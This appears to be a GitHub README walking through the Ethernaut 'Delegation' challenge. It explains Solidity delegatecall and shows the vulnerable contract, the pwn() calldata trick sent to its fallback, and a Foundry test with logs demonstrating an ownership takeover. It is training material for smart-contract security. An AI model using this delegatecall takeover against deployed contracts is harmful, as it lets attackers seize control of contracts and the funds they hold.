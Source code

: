 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)

<br>

# What You're Supposed to Do?

in `06-Delegation` Challenge, You Should Try To find a Way to Take Ownership of `Delegation` Contract with `delegatecall`.

`06-Delegation` Challenge Link: [https://ethernaut.openzeppelin.com/level/6](https://ethernaut.openzeppelin.com/level/6)

<br>

# How did i Complete This Challenge?

To complete this challenge, you should first understand how `delegatecall` works.

Think of `delegatecall` as borrowing a function from another contract and using it only once before returning it. What you should keep in mind is that when we borrow a function from another contract, we execute it in the context of the calling contract's state. This means the state variables and storage of the contract that made the `delegatecall` will change, not the state variables and storage of the target contract.

Now Lets take a Look At the Codebase:

in `Delegation` Contract We Have an Fallback Function, Which is Executed When a Function that does not exist is called or Ether is sent directly to a contract but `receive()` does not exist or `msg.data` is not empty.

```javascript
    contract Delegation {
        address public owner;
        Delegate delegate;

        constructor(address _delegateAddress) {
            delegate = Delegate(_delegateAddress);
            owner = msg.sender;
        }

        fallback() external {
            (bool result,) = address(delegate).delegatecall(msg.data);
            if (result) {
                this;
            }
        }
    }
```

What Attacker Would Do is trigger the `fallback()` function with `bytes memory data = abi.encodeWithSignature("pwn()");` as `msg.data`.

What Will This Do is, Is Gonna `delegatecall` target Contract `pwn()` function. Basically We Gonna Borrow the `pwn()` function from target Contract and Place it in our Contract, then After
We Executed it, We Gonna Give it Back.

So When the `delegatecall` to target Contract is Made, Our `Delegation` Contract, Looks Like this:

```javascript
    contract Delegation {
        address public owner;
        Delegate delegate;

        constructor(address _delegateAddress) {
            delegate = Delegate(_delegateAddress);
            owner = msg.sender;
        }

        function pwn() public {
            owner = msg.sender;
        }   

        fallback() external {
            (bool result,) = address(delegate).delegatecall(msg.data);
            if (result) {
                this;
            }
        }
    }
```

then We Execute `pwn()` with Context of the `Delegation` Contract and then we Give it Back. 

What `pwn()` function it stores `msg.sender` in `owner` variable. in This Particular Example the `msg.sender` is the One that Triggered the `fallback()` function.

also i Wrote Test For this Attack, it's Called `testtakeOwnerShipOfContractWithDelegateCall` inside the `Delegation.t.sol`:


```javascript
    function testtakeOwnerShipOfContractWithDelegateCall() public {
        vm.startPrank(ownerOfDelegationContract);
        assertEq(ownerOfDelegationContract, delegation.owner());
        console.log("Delegation Contract Owner Address: ", ownerOfDelegationContract);
        console.log("Attacker Address: ", attacker);
        vm.stopPrank();

        vm.startPrank(attacker);
        bytes memory data = abi.encodeWithSignature("pwn()");
        console.log("Current Owner Of Delegation Contract Before the Attack: ", delegation.owner());
        (bool success, ) = address(delegation).call(data);
        require(success, "Low Level Call Failed!");
        console.log("Current Owner Of Delegation Contract Before the Attack: ", delegation.owner());
        assertEq(attacker, delegation.owner());
        vm.stopPrank();
    }
```

You Can Run This Test inside Your Terminal With Following Command:

```javascript
    forge test --match-test testtakeOwnerShipOfContractWithDelegateCall -vvvv
```

Take a Look at the `Logs`:

```javascript
    Logs:
        Delegation Contract Owner Address:  0xf96Fa8Ef1e8D70d88ce300ED942026Fa0270262c
        Attacker Address:  0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
        Current Owner Of Delegation Contract Before the Attack:  0xf96Fa8Ef1e8D70d88ce300ED942026Fa0270262c
        Current Owner Of Delegation Contract Before the Attack:  0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
```

<br>

### i Hope this Made Sense for You, if it doesn't, then i recommend You Read this Two Documents About `delegatecall`:

1. [https://solidity-by-example.org/delegatecall/](https://solidity-by-example.org/delegatecall/)
2. [https://medium.com/@ajaotosinserah/mastering-delegatecall-in-solidity-a-comprehensive-guide-with-evm-walkthrough-6ddf027175c7](https://medium.com/@ajaotosinserah/mastering-delegatecall-in-solidity-a-comprehensive-guide-with-evm-walkthrough-6ddf027175c7)

